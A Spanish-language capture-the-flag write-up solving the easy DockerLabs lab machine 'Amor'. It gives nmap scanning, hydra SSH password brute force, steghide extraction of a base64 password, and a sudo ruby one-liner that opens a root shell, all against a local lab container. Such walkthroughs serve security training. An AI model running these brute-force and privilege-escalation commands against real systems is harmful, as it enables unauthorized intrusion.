 # Máquina Amor

Dificultad -> Easy

Enlace a la máquina -> [Dockerlabs](https://dockerlabs.es/)

Creador -> [romabri](https://github.com/romabri/WriteUps/commits?author=romabri)

***

## Reconocimiento

Comenzamos realizando un escaneo general con **nmap** sobre la IP de la máquina víctima para ver que puertos tiene abiertos.

```shell
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
________________________________________________
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
```

Lanzamos un conjunto de scripts predeterminado con **nmap** para que nos reporte más información relacionada a los puertos descubiertos en el anterior escaneo.

```shell
nmap -sCV -p22,80 172.17.0.2 -oN targeted
________________________________________________
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 7e72b68b5f7c2364dc1521325fce400a (ECDSA)
|_  256 058aa7270f88b97084ec6d33dcce096f (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: SecurSEC S.L
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Accedemos a la web para inspeccionarla:

![Pasted image 20240427175903](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/404422b7-1efc-4b05-b538-c53b5950968c)

Encontramos información importante como un par de usuarios, **carlota** y **juan**. Y que hay usuarios en el sistema con contraseñas débiles.

***

## Explotación

Aplicamos fuerza bruta con **hydra** sobre los usuarios:

```shell
hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10
-------------------------------------------------------------------
[22][ssh] host: 172.17.0.2   login: carlota   password: babygirl
```

Encontramos las credenciales de carlota -> **carlota:babygirl** Accedemos por ssh:

```shell
ssh carlota@172.17.0.2
```

Estamos dentro !

***

## Escalada de privilegios

En el directorio **/home/Desktop/fotos/vacaciones** de Carlota encontramos una imágen.

Nos la descargaremos para verla. Podemos usar **scp**:

```shell
scp carlota@172.17.0.2:/home/carlota/Desktop/fotos/vacaciones/imagen.jpg /home/albertomarcostic/Desktop/DockerLabs/Amor/content
```

Veremos si tiene algo oculto con la herramienta **steghide**:

```shell
steghide --extract -sf imagen.jpg
--------------------------------------
datos extrados e/"secret.txt".
```

Obtenemos un **secret.txt** con la siguiente información -> **ZXNsYWNhc2FkZXBpbnlwb24=**

Tiene pinta de **base64** así que lo decoficamos:

```shell
echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 -d; echo
-------------------------------------------------------
eslacasadepinypon
```

Usaremos esta información como contraseña para intentar migrar a otro usuario o convertirnos en **root**:

```shell
su oscar
```

Conseguimos migrar al usuario **oscar**. Ejecutamos **sudo -l** para ver si podemos ejecutar algo como otro usuario o como **root**:

```shell
sudo -l
------------------------------------------------
User oscar may run the following commands on 6ba86e9dc48a:
    (ALL) NOPASSWD: /usr/bin/ruby
```

Podemos ejecutar **ruby** como el usuario **root**, si no sabemos como abusar de esto, siempre podemos recurrir a [GTFOBins](broken-reference)

```shell
sudo /usr/bin/ruby -e 'exec "/bin/bash"'
```

```shell
whoami
----------------
root
```

Hemos alcanzado el nivel de privilegios máximo en la máquina.

```shell
cat /root/Desktop/THX.txt
-------------------------------
Gracias a toda la comunidad de Dockerlabs y a Mario por toda la ayuda proporcionada para poder hacer la máquina.
```

